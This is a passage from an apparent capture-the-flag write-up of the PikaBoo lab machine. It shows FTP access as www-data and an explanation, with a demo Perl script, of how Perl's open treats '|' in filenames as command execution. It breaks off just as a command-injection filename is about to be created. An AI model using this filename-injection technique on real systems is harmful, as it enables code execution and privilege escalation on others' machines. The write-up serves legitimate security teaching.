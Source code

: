     
    
    www-data@pikaboo:/var/www$ grep ftp /etc/group
    ftp:x:115:pwnmeow
    

I’ll pick a directory at random and upload a file. It works:

    
    
    ftp> cd types
    250 Directory successfully changed.
    ftp> put test.txt
    local: test.txt remote: test.txt
    200 PORT command successful. Consider using PASV.
    150 Ok to send data.
    226 Transfer complete.
    

### Exploit cvsupdate

#### Local Example

Perl’s `open` command can, for some crazy reason, be used to execute code. If
a command starts with `|`, then the rest of the command will be executed, with
anything written to the resulting handle being passed to the executed
command’s STDIN. If the filename ends with `|`, then the stuff before is
executed, and the output of the execution can be read from the filehandle.

I’ll demonstrate with a silly Perl program that is similar to the one on
PikaBoo:

    
    
    #!/usr/bin/perl
    
    
    shift;
    for(<>)
    {
      print $_;
    }
    

I’ll create a couple of `.csv` files and run it:

    
    
    oxdf@parrot$ echo -e "1\n2\n3" > a.csv 
    oxdf@parrot$ echo -e "a\nb" > b.csv 
    oxdf@parrot$ perl test.pl ignore *.csv
    1
    2
    3
    a
    b
    

I’ll add a file that has a command injection name:

    
    